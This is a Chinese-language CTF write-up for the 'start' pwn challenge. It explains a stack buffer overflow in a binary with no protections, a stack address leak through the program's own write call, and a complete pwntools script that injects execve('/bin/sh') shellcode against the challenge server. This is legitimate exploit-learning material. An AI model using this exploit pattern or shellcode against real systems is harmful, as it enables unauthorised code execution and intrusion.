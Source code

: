 checksec会发现是一个安全机制全关的程序

![image-20201124212140407](https://static.hack1s.fun/images/2021/02/06/image-20201124212140407.png)

这个程序本身很短

![image-20201124211033313](https://static.hack1s.fun/images/2021/02/06/image-20201124211033313.png)

start部分就这么短

这里就调用了一个write，输出了0x14的字符，之后就read了0x3c的字符

这里在ret之前将esp+14h

也就是说在输入的这个位置就是返回值了

```
 |<--- 				    ||							   --->|
esp						ra(esp+0x14)					 esp+0x3c
```

我们直接可以控制返回地址，并且由于程序没有开启NX可以直接在栈上写数据

程序没有开启随机化，栈的地址还是固定的，直接调试看到

![image-20210410194158266](https://static.hack1s.fun/images/2021/04/10/image-20210410194158266.png)

栈里面除了字符串就直接是返回地址exit了

![image-20210410202636198](https://static.hack1s.fun/images/2021/04/10/image-20210410202636198.png)

程序运行到ret的之后可以看到栈上的内容正好是`esp+4`的地址

可以直接覆盖返回地址为调用write的那一块代码，因为write会直接输出栈上的内容

这样我们就可以泄漏栈地址

那么后面就直接调用execve的syscall

试了一下使用shellcraft的sh，长度超了，找了一个短一些的版本

```python
from pwn import *

io = remote('node3.buuoj.cn',25760)
#  io = process('./start')

payload = b'a'*0x14 + p32(0x8048087)
io.send(payload)
io.recvuntil(':')
stack_addr = u32(io.recv(4))

payload = b'a'*0x14 + p32(stack_addr+0x14)                                                                                                                                                                     
payload = payload + asm("xor ecx, ecx\n mul ecx\n push ecx\n push 0x68732f2f\n push 0x6e69622f \n mov ebx, esp\n mov al, 0xb\n int 0x80")

io.send(payload)

io.interactive()
```



